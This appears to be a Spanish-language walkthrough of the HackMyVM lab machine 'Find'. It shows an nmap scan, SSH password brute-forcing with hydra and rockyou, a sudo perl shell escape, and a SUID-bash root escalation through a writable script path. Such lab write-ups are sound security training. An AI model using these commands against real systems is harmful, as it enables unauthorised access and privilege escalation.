 # Maquina Find Hackmyvm

```
Nivel =  facil
ip: 10.10.10.93
ports : 22 80
```
## Enumeracion de puertos y Servicios

~~~
# Nmap 7.92SVN scan initiated Wed Jun 15 16:02:59 2022 as: nmap -p- -sCV -T4 -v -n -oN targeted -oX targetedXML 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6ef79004840dcd1e5d2edab151d9bf57 (RSA)
|   256 395a6638f7649a94ddbcb6fbf8e73f87 (ECDSA)
|_  256 8c26e72662771640fbb5cfa61ce0f69d (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:11:31:1A (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 15 16:03:19 2022 -- 1 IP address (1 host up) scanned in 20.00 secon
~~~

## Enumeracion de archivos y carpetas

~~~
[16:24:44] 200 -   10KB - /index.html
[16:24:47] 403 -  276B  - /icons/      
[16:25:10] 200 -   34KB - /cat.jpg              
[16:25:16] 200 -  626B  - /manual/           
[16:25:16] 301 -  311B  - /manual  ->  http://10.10.10.93/manual/
[16:26:06] 200 -   13B  - /robots.txt  
~~~

En robots.txt nos pone que busquemos al usuario. --> find user :) .

Tenemos una imagen que contiene un codigo raro con strings cat.jpg lo veremos.

```bash
>C<;_"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJ`_dcba`_^]\Uy<XW
VOsrRKPONGk.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONML
KJIHGFEDZY^W\[ZYXWPOsSRQPON0Fj-IHAeR
```

Se puede compilar en esta pagina , para dar con ella tela.
~~~
http://www.malbolge.doleczek.pl/
~~~

conseguimos un nombre de usuario y con hydra conseguimos el password

❯ hydra -l xxxxxxx -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.93 -f -t 64
Hydra v9.4-dev (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-15 16:22:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking ssh://10.10.10.93:22/
[22][ssh] host: 10.10.10.93   login: xxxxxxx   password: xxxxxxxx
[STATUS] attack finished for 10.10.10.93 (valid pair found)
1 of 1 target successfully completed, 1 valid password found


### User Pivoting

Del usuario xxxxxxx --> kings.

Con sudo -l podemos ejecutar perl en gtfobins encontramos la manera de ejecutar una bash.

~~~
xxxxxx@find:~$ sudo -l
[sudo] password for missyred: 
Matching Defaults entries for xxxxxxx on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User xxxxxx may run the following commands on find:
    (kings) /usr/bin/perl
xxxxxxxx@find:~$ sudo -u kings  perl -e 'exec "/bin/bash";'
~~~

### Escalada de Privilegios

accedemos como el user kings y encotramos la primera flag

con sudo -l podemos ejecutar un script pero no esta.

kings@find:~$ sudo -l
Matching Defaults entries for kings on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kings may run the following commands on find:
    (ALL) NOPASSWD: /opt/boom/boom.sh


Nos vamos a la carpeta opt y veremos que tenemos permisos de escritura creamos la carpeta boom y el archivo boom.sh.



```bash
#!/bin/bash

chmod u+s /bin/bash
```

Le damos permisos chmod +x boom.sh y lo ejecutamos --> sudo -u root /opt/boom/boom.sh.

Aqui al ejecutarlo lo que haremos es darle permisos SUID al binario /bin/bash.

Con bash -p accedemos como root.
~~~
kings@find:~$ bash -p
bash-5.0# id;whoami;hostname
uid=1002(kings) gid=1006(kings) euid=0(root) groups=1006(kings),1005(kingg)
root
find
bash-5.0#
~~~
